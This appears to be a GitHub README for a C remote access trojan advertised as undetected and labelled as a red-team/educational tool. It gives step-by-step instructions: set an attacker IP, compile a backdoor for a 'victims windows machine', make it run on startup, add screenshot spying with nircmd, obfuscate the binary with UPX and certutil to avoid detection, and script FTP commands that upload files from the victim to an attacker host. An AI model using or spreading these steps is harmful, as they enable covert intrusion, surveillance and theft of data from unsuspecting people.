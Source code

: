 # C Persistent Encoded RAT </br>
[![Version](https://img.shields.io/badge/EP-0.1-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-Testing-brightgreen.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-Windows/Linux-orange.svg)]()
[![Contributions Welcome](https://img.shields.io/badge/Type-Undetected-blue.svg?style=flat)]()
**by Pol Galvez** </br>
### _Ethical Remote Access Tool for Red Teams / Educational use ONLY_ </br>
Do not use for Black Hat purposes

![alt text](https://raw.githubusercontent.com/PolGs/C-EthicalRAT/main/image_2021-07-30_221130.png)
## How to Use</br>
-> **Configure Attacker IP:(backdoor.c - line 19)**
```sh
char *ServIP  = "192.168.174.129";//Server IP
```
-> **Configure Attacker IP:(server.c -line 90)**
```sh
server_address.sin_addr.s_addr = inet_addr("192.168.174.129");//Server address
```
-> **Compile client for victims windows machine:**
```sh
i686-w64-mingw32-gcc -o /Documents/EternalPurple/backdoor.exe /Documents/EternalPurple/backdoor.c -lwsock32 -lwininet
```
->**Compile server for linux attackers machine:**
```sh
gcc /home/kali/Documents/EternalPurple/server.c -o /home/kali/Documents/EternalPurple/server.exe
```
->**Execute**
```sh
./server.exe
backdoor.exe
```

Commands assume that you have a linux OS and mingw installed
Also that you have backdoor.c and server.c on a Folder Called EternalPurple on your Documents


## Functionalities: </br>
### Enable run on startup:
![alt text](https://github.com/PolGs/C-EthicalRAT/blob/main/Screenshot%202021-07-29%20012247.png?raw=true)

## Thanks to
thanks to  • SCHØØL ZERØ • for tutorials on how to do this
https://www.youtube.com/c/SCHØØLZERØ <br>
Creating similar RAT<br>
https://youtu.be/6Dc8i1NQhCM<br>
Playlist on basic windows rat .dll</br>
https://youtube.com/playlist?list=PLSqjYSJtqeaV1Hdk2ZVnr90KpDObfzDSs

Easy metasploit spyware:<br>
https://youtu.be/V67VIQB7N0w

## Other
To gain spyware functionalities you can use nircmd: https://www.nirsoft.net/utils/nircmd.html

## nircmd command to take screenshots
nircmd.exe savescreenshot screen1.png

## UPX to Obfuscate executable \n
UPX: https://upx.github.io
```sh
upx program.exe
```
You can also use certutil to encode executable
```sh
certutil -encode test.exe test.txt
```
```sh
certutil -decode test.txt test.exe
```
## ftp echos to Download files change put for get to Upload (This is done client side on the Shell)
```sh
echo open 192.168.1.171 >> ftp.txt
echo kali>> ftp.txt
echo kali>> ftp.txt
echo bin>> ftp.txt
echo put s1.png>> ftp.txt
echo bye>> ftp.txt

ftp -s:ftp.txt

open 192.168.44.130
kali
kali
put P1010975.JPG
bye
```
## License
Open Source<br>
**Free Software, Hell Yeah!**
